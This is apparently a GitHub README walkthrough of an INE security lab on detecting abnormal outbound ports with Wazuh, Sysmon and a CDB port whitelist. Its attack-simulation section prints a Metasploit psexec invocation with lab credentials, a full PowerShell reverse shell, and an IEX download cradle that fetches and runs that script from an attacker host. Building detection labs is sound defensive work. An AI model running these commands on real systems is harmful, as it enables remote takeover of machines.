

<div align="center">


# 🛡️ Detecting Abnormal Network Connections With Wazuh
### Enterprise SIEM Threat Detection • Windows Sysmon EID 3 • CDB Port Whitelisting • Metasploit PsExec & PowerShell C2 Simulation

[](https://my.ine.com/labs/89688258-d373-40a5-a885-9ef8dd7b60a9)
[](https://wazuh.com/)
[](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://attack.mitre.org/)
[](.)
[](.)

**A comprehensive, production-grade guide to deploying the Wazuh Agent, integrating Microsoft Sysmon telemetry, configuring Constant Database (CDB) port baselines, writing custom detection rules, and catching real adversary C2 channels.**

</div>

---

## 📌 About This Lab

### Description
In modern corporate environments, attackers frequently leverage non-standard or uncommon ports for command and control (C2), data exfiltration, and reverse shells to bypass static edge firewall rules and egress filtering. Detecting abnormal outbound connections from sensitive endpoints is a cornerstone of proactive defense.

### What is Wazuh?
**Wazuh** is an open-source security monitoring platform that can help detect and respond to cybersecurity threats. It is capable of protecting workloads across on-premises, virtualized, containerized, and cloud-based environments. The Wazuh solution consists of an endpoint security agent, deployed to the monitored systems, and a management server, which collects and analyzes data gathered by the agents. Besides, Wazuh is built on the Elastic Stack, providing a search engine and data visualization tool that allows users to navigate through their security alerts.

*Reference:* [https://wazuh.com/](https://wazuh.com/)

### What is Sysmon?
**System Monitor (Sysmon)** is a Windows system service and device driver that, once installed on a system, remains resident across system reboots to monitor and log system activity to the Windows event log. It provides detailed information about process creations, network connections, and changes to file creation time etc.

*Reference:* [https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

---

## 🎯 Lab Environment & Objectives

In this lab environment, GUI access to **Ubuntu 20.04 (SOC Machine)** and **Windows Server 2019 (Target Machine)** is provided. The Ubuntu machine runs the Wazuh Server, and Windows Server 2019 is configured with Wazuh for active monitoring. A **Kali Linux** machine is also present to simulate adversary activity.

**Objective:** Detect abnormal network connections with Wazuh by generating an alert when the endpoint establishes a network connection to an uncommon port.

### Core Tasks:
* **Task 1:** Deploy the Wazuh Agent on the Windows machine.
* **Task 2:** Set up Sysmon and integrate it with Wazuh.
* **Task 3:** Configure a CDB list (constant database) of commonly used ports that you do not want to alert on.
* **Task 4:** Add an appropriate rule to the Wazuh manager.
* **Task 5:** Simulate an attack (Pass-the-Hash or using a PowerShell script) and detect the abnormal network connections from the Wazuh Dashboard.

### Useful Credentials & Access:
* **Windows Target Credentials:**  
  * Username: `administrator`  
  * Password: `abc_123321!@#`
* **Wazuh Dashboard URL:**  
  * URL: `https://localhost`  
  * Username: `admin`  
  * Password: `wEe76ZfIQmisfbtS4g52*DXP5.?3H+fc`

### Recommended Tools:
* **Wazuh Agent** (Endpoint Log Shipper)
* **Microsoft Sysmon** (Kernel-level Process & Network Instrumentation)
* **Firefox** (Wazuh Dashboard GUI)
* **PowerShell** (Windows Automation & Execution Cradle)
* **Netcat** (Adversary C2 Listener)
* **Metasploit Framework** (Adversary Lateral Movement & PsExec)

---

## ⚡ Architecture & Detection Pipeline




---

## ⚡ Constant Database (CDB) List Matching

A **Constant Database (CDB)** is a specialized, read-only associative array structure that enables $O(1)$ constant-time key lookups with zero locking overhead, regardless of the size of the database.


When the Wazuh Manager evaluates network events:
1. `wazuh-analysisd` extracts `win.eventdata.destinationPort` from Sysmon Event ID 3.
2. It looks up the port key against the compiled hash table in `/var/ossec/etc/lists/common-ports.cdb`.
3. If `lookup="not_match_key"` evaluates to true (the port is missing from the whitelist), Rule `115001` immediately fires at **Severity Level 10**.

---

## 🎬 Live Terminal & SIEM Demonstration

The animated forensic demo below shows the full operational flow: deploying the Windows agent, configuring Sysmon log channels, authoring the CDB port whitelist, loading Rule 115001, executing Metasploit and PowerShell reverse shells from Kali, and observing real-time Level 10 alerts in the Wazuh Dashboard:


---

## 🚀 Step-by-Step Hands-on Solution

### Task 1: Deploy the Wazuh Agent on the Windows machine

#### Step 1: Open the lab link to access the machines
Access the GUI desktops for:
* **Kali Machine** (Attacker: `10.10.21.2`)
* **Ubuntu Machine** (SOC Manager: `10.0.18.204`)
* **Windows Machine** (Target: `10.0.23.132`)


---

#### Step 2: Access Wazuh Dashboard & Check Manager IP
On the Ubuntu machine, open Firefox and browse to:
```text
URL: https://localhost
Username: admin
Password: wEe76ZfIQmisfbtS4g52*DXP5.?3H+fc
```
*(Accept the self-signed certificate warning).*

Currently, there are **0 active agents** connected to the Wazuh server. Check the IP address of the Wazuh server machine:
```bash
ip addr
```
The IP address of the Ubuntu machine where Wazuh is running is: **`10.0.18.204`**.


---

#### Step 3: Deploy the Wazuh Agent on Windows Server 2019
Switch to the **Windows machine**. The Wazuh agent installer is present under `Desktop\Tools` on the Administrator's Desktop. 

Run the following commands in an administrative PowerShell terminal to deploy the Wazuh agent silently:
```powershell
cd Desktop\Tools
msiexec.exe /i wazuh-agent-4.3.10-1.msi /q WAZUH_MANAGER=10.0.18.204 WAZUH_REGISTRATION_SERVER=10.0.18.204 WAZUH_AGENT_GROUP=default
```

Wait a few minutes and then start the Wazuh Agent service using the following command:
```powershell
Start-Service -Name WazuhSvc
```

*(Note: Once you start the service, you might get disconnected from the RDP session. In this case, simply connect back).*


---

#### Step 4: Verify the Active Agent on Wazuh Dashboard
Switch back to the **Ubuntu machine** and refresh the Wazuh Dashboard page until you see an active agent (**WIN-SERVER-2019**, ID `001`, IP `10.0.23.132`):


---

### Task 2: Set up Sysmon and integrate it with Wazuh

#### Step 5: Install Sysmon on Windows Target
On the **Windows machine**, navigate to the `Tools` directory present on the Administrator's Desktop. The Sysmon installer is present here. 

Install Sysmon with the given configuration file using the following command:
```powershell
.\Sysmon64.exe -accepteula -i sysmonconfig.xml
```

Sysmon is now up and running. You can find the Sysmon events in the Event Viewer by navigating to **Applications and Services Logs** > **Microsoft** > **Windows** > **Sysmon**.


---

#### Step 6: Configure Wazuh Agent to Capture Sysmon Events
Configure the agent to capture Sysmon events by adding the following block to the agent configuration file located at `C:\Program Files (x86)\ossec-agent\ossec.conf`:

```xml
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

Restart the agent service to apply the changes:
```powershell
Restart-Service -Name WazuhSvc
```

Also, check the IP address of the Windows machine that we will require later:
```powershell
ipconfig
```
The Windows Machine IP address is **`10.0.23.132`**.


---

### Task 3: Configure a CDB list (constant database) of commonly used ports

#### Step 7: Create the common-ports CDB List File
A constant database (CDB) list file is a text file that consists of `key:value` pairs. Each pair must be present on a single line, with the keys being unique. The values are optional. 

On the **Ubuntu machine**, navigate to the `/var/ossec/etc/lists/` directory and save the common port list to a file named `common-ports`:
```bash
cd /var/ossec/etc/lists/
sudo vi common-ports
```

**File content:**
```text
21:
25:
22:
53:
80:
135:
389:
443:
445:
993:
995:
1514:
1515:
3389:
3306:
5000:
5223:
8000:
8002:
8080:
8083:
8443:
```

*(You can fine tune this list as per your need).*

Change the ownership and permissions of the file using the following commands:
```bash
sudo chown wazuh:wazuh common-ports
sudo chmod 660 common-ports
```


---

#### Step 8: Instruct Wazuh Manager to Load the CDB List
Add this CDB list to the `/var/ossec/etc/ossec.conf` file within the `<ruleset>` block to instruct Wazuh to load the list:

```xml
<list>etc/lists/common-ports</list>
```

Restart the manager to apply the changes:
```bash
sudo systemctl restart wazuh-manager
```


---

### Task 4: Add an appropriate rule to the Wazuh manager

#### Step 9: Add Custom Detection Rule 115001
We know that an **Event ID 3** is generated on Sysmon when a network connection is detected (parent rule ID `61605`). 

Add the following rule to the `/var/ossec/etc/rules/local_rules.xml` file, to alert when the destination port in the event does not match the entry in our CDB list:

```xml
<group name="windows,sysmon,">
  <rule id="115001" level="10">
    <if_sid>61605</if_sid>
    <list field="win.eventdata.destinationPort" lookup="not_match_key">etc/lists/common-ports</list>
    <description>[Network connection]: Network connection to an Uncommon Port $(win.eventdata.destinationPort) by $(win.eventdata.image)</description>
  </rule>
</group>
```

Restart the manager to apply the changes:
```bash
sudo systemctl restart wazuh-manager
```


---

### Task 5: Simulate an attack and detect abnormal connections

#### Step 10: Check Kali Machine Network Address
First, check the IP address of the Kali machine:
```bash
ifconfig
```
The Kali machine's IP address is **`10.10.21.2`**.


---

#### Step 11: Attack Simulation 1 — Metasploit SMB PsExec Pass-the-Hash
Perform a pass-the-hash attack using Metasploit. On the **Kali machine**, run the following commands:
```bash
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS 10.0.23.132
set SMBUser administrator
set SMBPass abc_123321!@#
exploit
```

*(Note: In case you don't get a Meterpreter session on the first attempt, run the exploit again).*


---

#### Step 12: Triage Alert 1 in Wazuh Dashboard
As port **`4444`** is the default port used in the Metasploit attack to which the target system connects back to, we get a high-severity alert because port 4444 is not in our CDB list. 

Navigate to **Security Events** on the Wazuh Dashboard to view the alert:
* **Rule ID:** `115001` (Level 10)
* **Description:** `[Network connection]: Network connection to an Uncommon Port 4444 by C:\Windows\system32\rundll32.exe`

You can now exit the session on the Kali machine (`exit`).


---

#### Step 13: Craft Standalone PowerShell Reverse Shell
Let's also try to run a PowerShell script and catch a reverse shell on a Netcat listener on an uncommon port. 

On the **Kali machine**, save the following content in a file named `mypowershell.ps1`. Here, we specify the Kali machine's IP (`10.10.21.2`) and the listening port (`1234`):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.21.2",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


---

#### Step 14: Start Python HTTP Server & Netcat Listener
Start the Python simple HTTP server to host the script:
```bash
python -m SimpleHTTPServer 80
```
*(On Python 3: `python3 -m http.server 80`)*

On a different tab, start a Netcat listener on port **`1234`**:
```bash
nc -lvp 1234
```


---

#### Step 15: Execute Download Cradle on Windows Target
Switch to the **Windows machine** and run the following command in PowerShell:
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.21.2:80/mypowershell.ps1')"
```

Switch back to Kali; you will receive an active interactive shell on your Netcat listener:
```text
connect to [10.10.21.2] from (UNKNOWN) [10.0.23.132] 49830
PS C:\Users\Administrator> whoami
win-server-2019\administrator
```


---

#### Step 16: Triage Alert 2 in Wazuh Dashboard
Refresh the **Wazuh Dashboard** page and verify the alert generated for the abnormal network connection:
* **Rule ID:** `115001` (Level 10)
* **Description:** `[Network connection]: Network connection to an Uncommon Port 1234 by C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
* **Destination Port:** `1234`
* **Destination IP:** `10.10.21.2`


Both attacks have been successfully simulated, isolated, and detected!

---

## 🛠️ Python Lab Helper Scripts Included

The following production-ready scripts are included directly in this directory:

* **[`simulate_network_attacks.py`](./simulate_network_attacks.py):** Automated testing tool to simulate outbound TCP sockets to non-standard ports, test destination ports against the CDB baseline, and host `mypowershell.ps1` via built-in HTTP server.
* **[`manage_cdb_ports.py`](./manage_cdb_ports.py):** Administration utility to format, sort, and validate the syntax of Wazuh `/var/ossec/etc/lists/common-ports` files.
* **[`generate_lab_media.py`](./generate_lab_media.py):** Media rendering engine to regenerate the 16 terminal execution cards and animated demonstration GIF.

---

## 🏁 Conclusion

In this lab, we learned how to detect abnormal network connections with Wazuh by generating an alert when the endpoint establishes a network connection to an uncommon port. 

By combining **Microsoft Sysmon's Event ID 3** network instrumentation with Wazuh's **Constant Database (CDB) list engine**, enterprise SOC teams can establish an airtight baseline of authorized ports and catch adversary C2 callbacks and reverse shells in real time without incurring search latency.

---

## 📚 References
* [Wazuh Official Website](https://wazuh.com/)
* [Microsoft Sysinternals Sysmon Documentation](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
* [Detecting Abnormal Network Ports With Wazuh — SOCFortress](https://socfortress.medium.com/detecting-abnormal-network-ports-with-wazuh-6188ee8ed156)
* [INE Security Lab Portal](https://my.ine.com/labs/89688258-d373-40a5-a885-9ef8dd7b60a9)
